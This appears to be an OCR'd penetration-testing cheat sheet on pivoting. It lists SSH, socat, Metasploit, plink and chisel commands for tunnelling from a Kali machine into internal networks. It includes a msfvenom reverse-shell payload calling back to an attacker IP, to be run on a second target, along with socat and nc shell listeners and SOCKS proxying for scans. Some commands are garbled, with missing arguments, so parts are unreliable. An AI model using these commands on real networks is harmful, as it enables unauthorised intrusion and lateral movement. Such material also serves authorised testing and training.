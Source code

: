 # **Pivoting**

Local port forwardingForward local port to remote hostssh  -L ::​Remote port forwardingForward remote port to local hostssh  -R ::​Dynamic portssh -D  -p  

**SOCAT**

```
socat file:`tty`,raw,echo=0 tcp-listen:8989
```

**PORT FORWARDING "port to port":**

- ----MSF---- Most platforms

Forward: Get meterpreter session on one of the dual homed machines portfwd add -l 4445 -p 4443 -r ip Use -R to make it reverse

- ----SSH---- For Linux

\~C "if you already have an SSH session"

\-R 8081:ip:80 (on my Kali machine listen on 8081, get it from 172.24.0.2:80)

:8081<------------:80 Now you can access 172.24.0.2:80, which you didn't have direct access to

\-L 8083:ip:8084 (on your machine listen on 8083, send it to my Kali machine on 8084)

:8084<------------:8083<------------:XXXX run nc on port 8084, and if ip:8083 receives a reverse shell, you will get it

For reverse shell: 
```
msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=10.1.1.230 LPORT=8083 -f exe -o shell
```
Run it on 2nd remote target to get a shell on Kali

Or if you didn't have an SSH session, then SSH to your Kali from target machine: On Kali: service ssh start "add a user, give it `/bin/false` in `/etc/passwd`" 
`ssh - -R 12345:192.168.122.228:5986`

- ---PLINK---- Just like SSH, on Windows service ssh start , and transfer /usr/share/windows-binaries/plink.exe to the target machine
```
On Target: plink.exe ip -P 22 -C -N -L 0.0.0.0:4445:ip:4443 -l KALIUSER -pw PASS
```
- ---SOCAT---- For linux

Forward your 8083 to ip:443 ./socat TCP4-LISTEN:8083,fork TCP4:ip:443

- ---CHISEL---- Most platforms

Remote static tunnels "port to port":

On Kali "reverse proxy listener": ```./chisel server -p 8000 -reverse```

General command: ```./chisel client : L/R:\[YOUR LOCAL IP]:::```

Remote tunnels "access IP:PORT you couldn't access before": 
```
On Target: ./chisel client ip:8000 R:127.0.0.1:8001:172.19.0.3:80
```
Local tunnels "listen on the target for something, and send it to us": 
```
On Target: ./chisel client 10.1.1.1:8000 9001:127.0.0.1:8003
```

DYNAMIC "port to any": setup proxychains with socks5 on 127.0.0.1:1080 Or set up socks5 proxy on firefox For nmap use -Pn -sT or use tcp scanner in msf

- ---MSF---- Most platforms

Get meterpreter session on one of the dual homed machines Auto route to ip (multi/manage/autoroute) Start socks proxy (auxiliary/server/socks4a)

- ----SSH---- For Linux

\-D1080

- ---PLINK--- Just like SSH, on Windows

On Target: plink.exe ip -P 22 -C -N -D 1080 -l KALIUSER -pw PASS

- ---CHISEL---- Most platforms
```
On Kali: ./chisel server -p 8000 -reverse
```
```
On Target: ./chisel client ip:8000 R:8001:127.0.0.1:1080 ./chisel server -p 8001 --socks5
```
```
On Kali: ./chisel client 127.0.0.1:8001 socks
```
